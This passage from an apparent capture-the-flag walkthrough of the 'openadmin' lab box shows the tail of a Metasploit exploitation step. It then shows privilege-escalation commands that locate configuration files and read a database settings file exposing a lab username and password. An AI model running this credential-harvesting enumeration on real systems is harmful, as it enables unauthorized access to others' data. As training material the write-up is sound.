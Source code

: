 	
	Exploit target:
	
	   Id  Name
	   --  ----
	   0   Automatic Target
	```
5. Exploit!
	![]({{ page.img_path }}Pasted%20image%2020220926040313.png)



# Privilege Escalation

## Jimmy - Enumeration (Found Jimmy Creds)
1. Since we saw a login page earlier, there should be a database configuration file, enumerate the system for configuration files
	```
	www-data@openadmin:/opt/ona$ find . 2>/dev/null | grep config
	./www/config
	./www/config/auth_ldap.config.php
	./www/config/config.inc.php
	```
2. View `config.inc.php`
	```
	www-data@openadmin:/opt/ona$ cat ./www/config/config.inc.php | grep -n "db\|database"
	...
	176:$dbconffile = "{$base}/local/config/database_settings.inc.php";
	...
	```
	- Points to a file w/ database configuration
3. Found credentials at  `local/config/database_settings.inc.php`
	```php
	www-data@openadmin:/opt/ona$ cat www/local/config/database_settings.inc.php
	<?php
	
	$ona_contexts=array (
	  'DEFAULT' =>
	  array (
	    'databases' =>
	    array (
	      0 =>
	      array (
	        'db_type' => 'mysqli',
	        'db_host' => 'localhost',
	        'db_login' => 'ona_sys',
	        'db_passwd' => 'n1nj4W4rri0R!',
	        'db_database' => 'ona_default',
	        'db_debug' => false,
	      ),
	    ),
	    'description' => 'Default data context',
	    'context_color' => '#D3DBFF',
	  ),
	);
	